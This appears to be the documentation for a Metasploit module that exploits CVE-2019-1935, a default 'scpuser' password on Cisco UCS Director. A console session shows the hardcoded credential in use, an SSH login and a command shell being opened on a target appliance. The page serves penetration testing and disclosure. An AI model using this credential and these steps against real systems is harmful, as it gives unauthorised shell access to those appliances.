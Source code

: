 ## Vulnerable Application

This module abuses a known default password on Cisco UCS Director. The 'scpuser'
has the password of 'scpuser', and allows an attacker to login to the virtual appliance
via SSH (aka CVE-2019-1935).

This module has been tested with Cisco UCS Director virtual machines 6.6.0 and 6.7.0.
Note that Cisco also mentions in their advisory that their IMC Supervisor and
UCS Director Express are also affected by these vulnerabilities, but this module
was not tested with those products.

## Scenarios

Setup RHOST and run it!

```
msf exploit(linux/http/cisco_ucs_rce) > use exploit/linux/ssh/cisco_ucs_scpuser
msf exploit(linux/ssh/cisco_ucs_scpuser) > set rhost 10.9.8.121
rhost => 10.9.8.121
msf exploit(linux/ssh/cisco_ucs_scpuser) > set lhost 10.9.8.1
lhost => 10.9.8.1
msf exploit(linux/ssh/cisco_ucs_scpuser) > run

[*] 10.9.8.121:22 - Attempt to login to the Cisco appliance...
[+] 10.9.8.121:22 - Login Successful (scpuser:scpuser)

[*] Found shell.
[*] Command shell session 1 opened (10.9.8.1:38113 -> 10.9.8.121:22) at 2019-08-29 22:27:42 +0700

whoami
scpuser
^C
Abort session 1? [y/N]  y
""

[*] 10.9.8.121 - Command shell session 1 closed.  Reason: User exit
```
